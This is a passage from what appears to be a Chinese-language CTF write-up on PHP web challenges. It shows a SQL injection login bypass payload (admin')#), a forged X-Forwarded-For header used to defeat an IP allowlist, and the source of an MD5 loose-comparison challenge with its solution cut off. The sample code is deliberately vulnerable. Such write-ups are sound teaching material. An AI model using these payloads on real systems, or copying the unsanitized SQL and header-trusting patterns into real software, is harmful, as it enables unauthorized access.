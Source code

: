 ```php
?>
```

**思路分析**

关键代码：
```
$sql = "select user from php where (user='$user') and (pw='$pass')";
```
payload如下:
```
admin')#
```

## X-Forwarded-For绕过指定IP地址

**部分源码**

```php
<?php
function GetIP(){
if(!empty($_SERVER["HTTP_CLIENT_IP"]))
    $cip = $_SERVER["HTTP_CLIENT_IP"];
else if(!empty($_SERVER["HTTP_X_FORWARDED_FOR"]))
    $cip = $_SERVER["HTTP_X_FORWARDED_FOR"];
else if(!empty($_SERVER["REMOTE_ADDR"]))
    $cip = $_SERVER["REMOTE_ADDR"];
else
    $cip = "0.0.0.0";
return $cip;
}

$GetIPs = GetIP();
if ($GetIPs=="1.1.1.1"){
echo "Great! Key is *********";
}
else{
echo "错误！你的IP不在访问列表之内！";
}
?>
```

**思路分析**
- 伪造IP
- X-Forwarded-For: 1.1.1.1

## md5加密相等绕过

**部分源码**
```php
<?php
$md51 = md5('QNKCDZO');
$a = @$_GET['a'];
$md52 = @md5($a);
if(isset($a)){
if ($a != 'QNKCDZO' && $md51 == $md52) {
    echo "nctf{*****************}";
} else {
    echo "false!!!";
}}
else{echo "please input a";}
?>
```
